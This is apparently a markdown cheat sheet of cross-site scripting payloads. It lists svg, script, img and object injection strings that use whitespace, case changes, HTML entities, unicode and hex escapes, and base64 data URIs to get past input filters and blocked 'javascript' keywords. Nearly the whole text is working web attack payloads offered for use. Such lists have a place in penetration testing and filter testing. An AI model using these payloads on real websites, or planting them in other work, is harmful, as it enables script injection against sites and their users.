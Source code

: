# Payloads

#### Bypassing First Filter

* \<svg/onload=alert(1)>
* \<svg//////onload=alert(1)>
* \<svg id=x;onload=alert(1)>
* \<svg id=\`x\`onload=alert(1)>
* \<svg%09onload=alert(1)>
* \<svg onload%09=alert(1)>
* \<svg%09onload%20=alert(1)>
* \<svg onload%09%20%28%2C%3B=alert(1)>
* \<svg onload+0B=alert(1)>
* \<script>\u0061lert(1)\</script>
* \<script>\u0061\u006c\u0065\u0072\u0074(1)\</script>
* \<img src=x onerror="\u0061lert"/>
* \<img src=x onerror="eval('\141lert(1)')"/>
* \<img src=x onerror="eval('\x61lert(1)')"/>

#### Javascript Keyword is blocked

* \<object data="JaVaScRiPt:alert(1)">
* \<object data="javascript\&colon;alert(1)">
*   \<object data="java &#x20;

    &#x20;   script:alert(1)">
* \<object data="javascript\&#x003A;alert(1)">
* \<object data="javascript\&#58;alert(1)">
* \<object data="\&#x6A;avascript;alert(1)">
* \<object data="\&#x6A;\&#x61;\&#x76;\&#x61;\&#x73;\&#x63;\&#x72;\&#x69;\&#x70;74;\&#x3A;alert(1)">
* \<object data="data:text/html,\<script>alert(1)\</script>">
* \<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">



